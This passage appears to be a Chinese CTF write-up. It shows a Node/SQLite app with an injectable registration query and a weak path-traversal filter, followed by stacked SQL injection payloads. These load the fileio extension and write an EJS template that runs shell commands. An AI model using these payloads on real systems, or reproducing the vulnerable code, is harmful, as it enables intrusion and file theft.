req.session.user = { id: user.id, username: user.username, isAdmin: user.is_admin };
res.redirect('/');
});
});
app.post('/register', (req, res) => {
const { username, password, confirmPassword } = req.body;
if (password !== confirmPassword) {
return res.status(400).send('两次输入的密码不一致');
}
db.exec(`INSERT INTO users (username, password) VALUES ('${username}', '${password}')`, function(err) {
if (err) {
console.error('注册失败:', err);
return res.status(500).send('注册失败，用户名可能已存在');
}
res.redirect('/login');
});
});
app.get('/download', (req, res) => {
if (!req.session.user) return res.redirect('/login');
const filename = req.query.filename;
if (filename.startsWith('/')||filename.startsWith('./')) {
return res.status(400).send('WAF');
}
if (filename.includes('../../')||filename.includes('.././')||filename.includes('f')||filename.includes('//')) {
return res.status(400).send('WAF');
}
if (!filename || path.isAbsolute(filename) ) {
return res.status(400).send('无效文件名');
}
const filePath = path.join(__dirname, 'documents', filename);
if (fs.existsSync(filePath)) {
res.download(filePath);
} else {
res.status(404).send('文件不存在');
}
});
const PORT = 80;
app.listen(PORT, () => {
console.log(`Server running on http://localhost:${PORT}`);
});sqlite3 注入，先测试一下是否能建表插值
username=123&password=1'); CREATE TABLE IF NOT EXISTS pwn(note TEXT); INSERT INTO pwn VALUES('OK-1');--&confirmPassword=1'); CREATE TABLE IF NOT EXISTS pwn(note TEXT); INSERT INTO pwn VALUES('OK-1');--读取 ../db.sqlite，拿到本地读一下，看到 SQL 执行成功
fileio，如果可以则能直接调用 readfile() / writefile()把 /fla4444444aaaaaagg.txt 读出来
username=1234&password=1'); INSERT INTO pwn VALUES('BEFORE-EXT'); SELECT load_extension('/usr/lib/x86_64-linux-gnu/sqlite3/fileio.so','sqlite3_fileio_init'); INSERT INT
O pwn VALUES('AFTER-EXT');--&&confirmPassword=1'); INSERT INTO pwn VALUES('BEFORE-EXT'); SELECT load_extension('/usr/lib/x86_64-linux-gnu/sqlite3/fileio.so','sqlite3_fileio_init'); INS
ERT INTO pwn VALUES('AFTER-EXT');--
');ATTACH DATABASE '/app/views/upload.ejs' AS z3;create TABLE z3.exp (paylo
ad text); insert INTO z3.exp (payload) VALUES ('<%= process.mainModule.requ
ire("child_process").execSync("cat /f*").toString() %>');--